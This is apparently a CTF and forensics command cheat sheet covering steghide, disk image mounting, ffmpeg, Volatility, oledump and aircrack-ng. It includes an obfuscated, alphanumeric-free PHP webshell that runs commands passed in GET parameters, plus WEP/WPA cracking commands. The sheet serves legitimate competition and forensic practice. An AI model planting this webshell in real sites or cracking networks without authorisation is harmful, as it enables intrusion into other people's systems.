 # CTF-like Tools
======
#### Extract Data from JPG
steghide -extract -p <password> -sf <file>
#### Boot a DOS/MBR Image
qemu-system-i386 floppy.img; vncviewer 127.0.0.1
#### PHP Webshell without alphanum
```

<?=$_='$<>/'^'{{{{';${$_}[_](${$_}[__]);
// $_= '$<>/' ^ '{{{{' ----> $_ = '_GET'
// ${_GET}[_](${_GET})[__];
// final <?=$_GET[_]($_GET[__])
```
#### Read IMG, Data Dump, or Physical Device
fdisk -l disk.img
#### Mount only part of IMG file
mount -v -o offset=135266304 -t ext4 pi.img /mnt (where offset is equal to sector size * start)
#### Convert DVD Files to MP4
cat VTS_0*_*VOB | ffmpeg -i - -vcodec h264 -acodec mp2 rip.mp4
#### Reduce Size of Video Files (lower compression/crf means higher quality)
ffmpeg -i movie.mpg -c:v libx264 -b:v 1.5M -c:a ac3 -b:a 128k movie_comp.mpg

## Volatility
------
#### Find possible profiles/offsets
volatility -f OL4.raw kdbgscan
#### List processes
volatility -f OL4.raw pslist --profile=Win2012x64
#### List variables within processes
volatility -f OL4.raw --profile=Win2012x64 envars
#### Bind to port (<1024) without root
echo 0 | sudo tee /proc/sys/net/ipv4/ip_unprivileged_port_start

## Examine Microsoft Office Macros
------
#### List OLE objects
oledump file.docm
#### Dump OLE object
oledump file.docm -s 4 -d

## Wifi
------
#### Crack WEP
aircrack-ng data.cap (WEP may be cracked with a sufficiently high number of handshakes , > ~1000)
#### Crack WPA
aircrack-ng -w wordlist.txt data.pcap